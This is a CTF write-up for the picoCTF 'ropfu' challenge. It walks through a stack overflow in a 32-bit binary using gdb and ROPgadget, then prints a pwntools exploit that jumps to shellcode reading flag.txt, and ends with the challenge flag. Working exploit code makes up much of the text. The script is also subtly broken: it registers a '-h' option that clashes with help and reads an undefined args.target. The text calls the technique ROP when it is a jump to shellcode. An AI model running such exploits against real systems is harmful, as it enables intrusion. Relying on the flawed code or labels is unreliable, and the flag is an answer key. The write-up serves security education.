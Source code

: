```yaml
---
title: ropfu - Picoctf | 300 points
date: 2023-12-16 12:00:00 +100
categories: [picoctf, ctf, ropfu]
tags: [ctf, picoctf, ropfu]
---
```


# How to Use ROP Vulnerability in PicoCTF Ropfu Challenge

![Ropfu](/assets/images/rop_attack/picoctf_ropfu.jpeg)

Here is our challenge where we have to use ROP vulnerability as mentioned in the description. We can start the instance and download the source code as well as the executable to start our inspection and find out what we are dealing with.

>Before we begin, I would like to mention that if you don’t have any idea about ROP, ROP chain or how stack works then please get some knowledge before read this write up because I’m not explaining that here.
{: .prompt-warning }

![C code](/assets/images/rop_attack/original_c_code.png)

This is the code we got in the challenge, and it’s very small and simple.
We can see that it’s using the `gets` function which is vulnerable to perform buffer overflow attack, but wait! Where is the function to get the flag?. We can’t just use buffer overflow because we don’t have any function to get the flag from it and hence no function address to add in the stack. Here is the challenge description telling you that we will have to perform ROP chain in order to get the access to the shell actually, and then we will be going to find where the flag is. This is where many people can get idea that what is the difference between buffer overflow and ROP attacks. Just buckle up to check a little more about the binary so that we can find what is running on that server for this challenge.

![file type](/assets/images/rop_attack/file_type.png)

![binary details](/assets/images/rop_attack/binary_details.png)

This is a 32-bit Linux executable file (ELF 32-bit) but, Eh! Stack canary found. Hmm! Now what? Nothing to fear. It will be a little different, but we will get through it.

![Joke](/assets/images/rop_attack/joke1.png)

Okay, let’s fire up the `gdb` and check out this binary closely. As we saw earlier that the buffer size is set to 16 bytes, we will be going to create a payload to perform buffer overflow first. For that, first we will going to create  a pattern for it using `pattern create` in `gdb` of more than 16 bytes but keep in mind that we are dealing with the executable which have canary enabled. So now we will try to create a pattern with 50 bytes, and then we will find out the offset. I used the following below pattern to start with

![Pattern](/assets/images/rop_attack/pattern.png)

and now let’s check the offset.

![Offset](/assets/images/rop_attack/offset.png)

So now we find out the offset, which is 25 for our register $eip. Now we can use simple add some character to find the address in the register so that we can start creating our payload for the ROP chain. Because we are dealing with the Stack canary, I tried different payload size and found 28 bytes from where we can start buffer overflow. I used 50 bytes ‘A’s to check what is the address of ‘A’ to go to the stack to perform buffer overflow.

![eaf](/assets/images/rop_attack/eaf.png)

As we can see that we have 0x414141 at $eax which is our point of interest to start buffer overflow, and then we will be going to put return address of our shell payload in the stack before existing the code. Let’s check the stack so that we can find the address for $eax. For that, let’s use a great library name, ROPGadget.

![trace](/assets/images/rop_attack/trace.png)

The list a very big so we can use any editor or grep to find the jump code which we can use to go to $eax.

![eax](/assets/images/rop_attack/eax.png)

And there you go, we got the address to our $eax which we can use to create our payload.

I’ll be using pwn tool which is a great tool for CTF, using which it will be easy to create python code to deal with the netcat server for our operations and use our payload interactively.

We are almost at the there to finish this challenge and for that we will going to use all the details we have collected so far. Here is the little confusing part. How to create a payload. We can start with the ‘A’s because that’s the point from which we can have a control to our stack.

Now the main thing to think about is how we will add a return address to the stack so that we can get back to the code instead of exiting the execution and call our address and then again instead of going to the same return point we will have to jump the addresses that we used to add a return. So here is the payload I created.

```python
payload = b"".join([
        b"A"*26,
        b"\xeb\x04",
        pwn.p32(0x0805334b),
        b"\x90"*offset, 
        pwn.asm(pwn.shellcraft.linux.cat("flag.txt"))
])
```

Let me tell you what is this. First, I added 26 bytes of ‘A’s and 2 bytes of short jump (remember 28 bytes we must use to perform buffer overflow). Short jump is used for jumping our return payload which is 0x0805334b else we will not be going to execute our shell payload. I used pwn tool to find and add this address in the stack. Now as we are using jump, it’s kind of not possible to know where exactly the code will jump so for that purpose I used NOPs which will help in the case where code will jump somewhere in the NOPs and the processor will do nothing as NOPs found till the next instruction which is out shell payload. We will save our some time and again use pwn to create that for us. I directly ran cat command because I know that file will be there. but we can run shellinstead if we want. And this is it. Below you can find the code for the same and test it. but I’ll suggest you to do it by yourself at least once.

```python
#/usr/bin/env python
import pwn
import argparse
parser = argparse.ArgumentParser()
parser.add_argument("destination", type=str, choices={"local", "remote"})
parser.add_argument("--host", "-h", type=str, default="", help="Enter the host")
parser.add_argument("--port", "-p", type=int, default=0, help="Enter the port")
args = parser.parse_args()
elf = pwn.ELF('./vuln')

new_eip = pwn.p32(0x0805334b)
short_jump = b"\xeb\x04"
shell_craft = pwn.asm(pwn.shellcraft.linux.cat("flag.txt"))
offset = 26
payload = b"".join([
        b"A"*offset,
        short_jump,
        new_eip,
        b"\x90"*offset, 
        shell_craft
])
payload += b"\n" # press enter
if args.destination == "local":
    p = elf.process()
elif args.destination == "remote":
    if not args.target or not args.port:
        pwn.warning("Please provide target and port to connect to remote server")
        exit()
    p = pwn.remote(args.target, args.port)
p.sendline(payload)
print(p.recvall().decode("latin-1"))
```

And the flag is: `picoCTF{5n47ch_7h3_5h311_c6992ff0}`

Hope this tutorial will help you to understand a bit about the challenge.
